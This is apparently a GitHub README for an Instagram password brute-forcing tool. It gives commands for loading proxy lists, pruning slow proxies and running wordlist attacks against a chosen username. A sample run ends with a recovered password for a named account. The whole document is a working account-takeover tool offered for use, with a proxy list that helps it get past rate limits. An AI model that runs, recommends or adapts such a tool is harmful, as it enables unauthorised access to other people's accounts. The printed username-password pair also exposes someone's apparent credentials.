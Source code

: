 ### instagrambruteforcer
![exploit](https://github.com/DarkKnightGeeky/instagrambruteforcer/blob/main/Instagrambruteforcer.png)
## Requirements

- Python _v3.11_
- proxy list
## Proxies

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.<br/>

### Upload

Upload a list of proxies into the program. The proxy file must have a format of `ip:port`<br/>

`proxies_list.txt`

```
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
```

To upload a list of proxies a similar syntax must be followed.

```
python3 instagrambruteforcer.py -px <path to proxy list>
```

### Stats

This gives an insight into the health of the proxies in the database.

```
python3 instagrambruteforcer.py --stats
```

### Prune

This allows the able to get rid of proxies with a score below a given score.<br/>
It is recommended that you run the `--stats` and prune the database of proxies<br/>
who have a proxy score below `Q1`.

```
python3 instagrambruteforcer.py --prune 0.05
```

Pruning is not a requirement because the <br/>
the system will automatically learn which proxies perform poorly and stop using them.

### Usage

```
python3 instagrambruteforcer.py -u <username> -p <passlist>
```

### Run

```
[-] Wordlist: passlist.txt
[-] Username: Lopezrita56
[-] Password: 357
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: passlist.txt
[-] Username: Lopezrita56
[-] Password: Lopez123
[-] Complete: 62.67%
[-] Attempts: 413
[-] Browsers: 145
[-] Exists: True

[!] Password Found
[+] Username: Lopezrita56
[+] Password: Lopez123
```
